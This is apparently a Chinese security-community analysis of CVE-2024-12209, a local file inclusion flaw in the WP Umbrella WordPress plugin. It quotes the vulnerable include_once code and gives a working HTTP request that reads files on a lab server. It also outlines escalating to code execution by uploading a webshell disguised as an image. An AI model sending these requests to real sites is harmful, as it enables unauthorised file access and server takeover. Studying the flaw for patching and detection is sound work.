






# WP Umbrella 插件漏洞分析(CVE-2024-12209)-先知社区

> **来源**: https://xz.aliyun.com/news/16135  
> **文章ID**: 16135

---

# 漏洞通告



# 漏洞分析

根据漏洞通告，可以定位到触发点在是在以下位置

| include | 包含并运行指定文件 执行出错会抛出错误 | include 'vars.php'; (括号可有可无) |
| --- | --- | --- |
| require | 同include 执行出错会抛出警告 | require('somefile.php'); (括号可有可无) |
| require\_once | 同require 但会检查之前是否已经包含该文件 确保不重复包含 |  |
| include\_once | 同include 但会检查之前是否已经包含该文件 确保不重复包含 |

全局搜索发现漏洞触发为`include_once`



逆向查看入口点



在`hooks`函数里，`handleClonerRequest`函数是通过回调函数触发的回调事件`template_redirect`

ps:`template_redirect`是 WordPress 核心提供的一个动作钩子，它在模板文件即将被加载之前触发。

思路明确后，分析一下核心代码

```
public function handleClonerRequest()
  {
    global $wp_query;

    if (!isset($wp_query->query_vars['umbrella-backup'])) {
      return;
    }

    $source = wp_umbrella_get_service('BackupFinderConfiguration')->getRootBackupModule();

    $filename = isset($_GET['filename']) ? $_GET['filename'] : 'cloner.php';

    $filePath = $source . $filename;
    if (!file_exists($filePath)) {
      wp_safe_redirect(home_url());
      return;
    }

    include_once $filePath;
  }

```

首先判断是否存在**umbrella-backup**参数，如果不存在则直接返回。

```
if (!isset($wp_query->query_vars['umbrella-backup'])) {
      return;
    }

```

接下来通过GET请求获取**filename**参数，如果参数存在则赋值给`$filename`

```
$filename = isset($_GET['filename']) ? $_GET['filename'] : 'cloner.php';

```

最后将`$filename`拼接到`$filePath`触发`include_once`

## 任意文件读取

直接构造payload

```
GET /favicon.ico?umbrella-backup=aaaaa&filename=license.txt HTTP/1.1
Host: 192.168.114.130:81
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://192.168.114.130:81/wp-admin/options-general.php?page=wp-umbrella-settings
Accept-Encoding: gzip, deflate, br
Cookie: XDEBUG_SESSION=123123; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_8b1a79b4596fe9cbb05348f39143aae5=admin%7C1733927086%7Cpu0agv4ejHjjnAJj5pXK9HfVEJmHeycDpMWsPXKAXE0%7C19acd26a128d1004a46e22bb1a0040e82caed22dc38d8a06a4c54668f0b18fb8; wp-settings-time-1=1733754939
Connection: keep-alive

```



## RCE

首先上传一个wehshell图片

获取到图片地址后，通过LFI读取webshell图片


